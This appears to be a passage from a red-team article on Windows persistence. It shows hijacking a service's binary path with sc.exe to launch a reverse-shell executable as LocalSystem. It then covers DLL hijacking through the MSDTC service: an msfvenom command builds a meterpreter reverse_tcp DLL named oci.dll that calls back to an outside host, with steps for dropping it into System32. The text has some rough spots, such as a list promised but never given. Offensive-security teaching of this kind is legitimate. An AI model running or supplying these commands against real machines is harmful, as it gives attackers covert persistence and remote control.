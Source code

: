 C:\> sc.exe qc Targetservice  
[SC] QueryServiceConfig SUCCESS  
  
SERVICE_NAME: Targetservice  
        TYPE               : 10  WIN32_OWN_PROCESS  
        START_TYPE         : 2 AUTO_START  
        ERROR_CONTROL      : 1   NORMAL  
        BINARY_PATH_NAME   : C:\MyService\Targetservice.exe  
        LOAD_ORDER_GROUP   :  
        TAG                : 0  
        DISPLAY_NAME       : Targetservice  
        DEPENDENCIES       :  
        SERVICE_START_NAME : NT AUTHORITY\Local Service

There are three things we care about when using a service for persistence:

Now lets modify the binpath of our choosen target service to our malicious payload

C:\> sc.exe config Targetservice binPath= “C:\Windows\revshell.exe” start= auto obj= “LocalSystem”

# Persistence Using Dll Hijacking

DLL hijacking is a Technique that injects an infected file within the search parameters of an application. A user then attempts to load a file from that directory and instead loads the infected DLL file. Thus potential interrupting and controlling the excution flow of the program in malicious way.

When a program is starting, a number of DLL’s are loaded into the memory space of it’s process. Windows is searching the DLL’s that are required by the process by looking into the system folders in a specific order. Hijacking the search order can be used in red teaming scenarios to maintain persistence access opportunities.

In This persitence technique we try to masquerade as a DLL that is missing from a Windows process in order to execute arbitrary code and remain hidden. The attack surface regarding DLL hijacking is huge and depends on the version of the operating system and the software installed. However some of the most notable that can be used in Windows 7 and Windows 10 are described in this article.

### MSDTC

The Distributed Transaction Coordinator is a windows service responsible for coordinating transactions between databases (SQL Server) and web servers. When this service starts attempts to load the following three DLL files from System32.

We can see it from registry as well :

![](https://hadess.io/wp-content/uploads/2023/11/image-32-1024x556.png)

The System32 folder does not contain the file “oci.dll” in typical Windows installations. This provides an opportunity to insert an arbitrary DLL with the identical name into this folder (administrator credentials are needed) so that malicious code can run. DLL files with a payload can be created using the Metasploit program “msfvenom.” or any other C2.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.22 LPORT=1234 -f dll > oci.dll

After that we will upload our malicious DLL file into %systemroot%\system32 folder. And just try to start the service.
